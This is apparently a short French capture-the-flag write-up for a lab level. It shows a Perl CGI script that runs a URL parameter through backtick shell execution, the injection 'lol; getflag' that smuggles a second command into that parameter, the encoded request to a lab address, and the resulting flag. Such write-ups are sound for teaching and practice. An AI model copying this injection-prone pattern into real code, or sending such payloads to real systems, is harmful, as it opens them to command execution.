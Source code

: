 # Level 04

- Le code
<pre>
#!/usr/bin/perl
# localhost:4747
use CGI qw{param};
print "Content-type: text/html\n\n";
sub x {
  $y = $_[0];
<strong>  print `echo $y 2>&1`;</strong>
}
print(param);
x(param("x"));
</pre>
- avec la commande on a choisi de faire une injection
```
lol; getflag
```
- On le converti en urlencode et on l'assigne au parametre **x**
  - [http://192.168.99.101:4747/?x=lol%3b%20getflag](http://192.168.99.101:4747/?x=lol%3b%20getflag)
- flag: `ne2searoevaevoem4ov4ar8ap`
